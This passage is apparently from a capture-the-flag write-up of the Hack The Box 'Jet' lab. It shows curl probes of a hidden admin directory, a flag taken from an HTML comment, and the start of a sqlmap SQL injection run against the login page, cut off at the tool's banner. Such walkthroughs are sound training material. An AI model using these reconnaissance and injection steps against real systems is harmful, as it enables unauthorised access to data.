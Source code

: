 We see a URL to have a look at:

```sh
┌──(root💀kali)-[~/htb/jet]
└─# curl http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/stats.php
1637337254
```

Not very helpful for now. If we try without stats.php on the end we find there's a login page:

```sh
┌──(root💀kali)-[~/htb/jet]
└─# curl -v http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/
*   Trying 10.13.37.10:80...
* Connected to www.securewebinc.jet (10.13.37.10) port 80 (#0)
> GET /dirb_safe_dir_rf9EmcEIx/admin/ HTTP/1.1
> Host: www.securewebinc.jet
> User-Agent: curl/7.79.1
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Moved Temporarily
< Server: nginx/1.10.3 (Ubuntu)
< Date: Fri, 19 Nov 2021 15:55:45 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Location: login.php
< 
* Connection #0 to host www.securewebinc.jet left intact
```

We can curl that page and find another flag:

```sh
┌──(root💀kali)-[~/htb/jet]
└─# curl -s http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/login.php | grep JET
    <!-- JET{s3cur3_js_w4s_not_s0_s3cur3_4ft3r4ll} -->
```

Next we move on to SQL injections as this login page is vulnerable. Start Burp, attempt to log in on the website and capture:

![jet-burp](/assets/images/2021-11-19-16-04-45.png)

Save that to a file then use with sqlmap:

```sh
┌──(root💀kali)-[~/htb/jet]
└─# sqlmap -r jet-login --dbs
        ___
       __H__                                                                                                                                                                                                                                 
 ___ ___[']_____ ___ ___  {1.5.11#stable}                                                                                                                                                                                                    
|_ -| . [.]     | .'| . |                                                                                                                                                                                                                    
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                 
[*] starting @ 15:56:26 /2021-11-19/
[15:56:26] [INFO] parsing HTTP request from 'jet-login'
```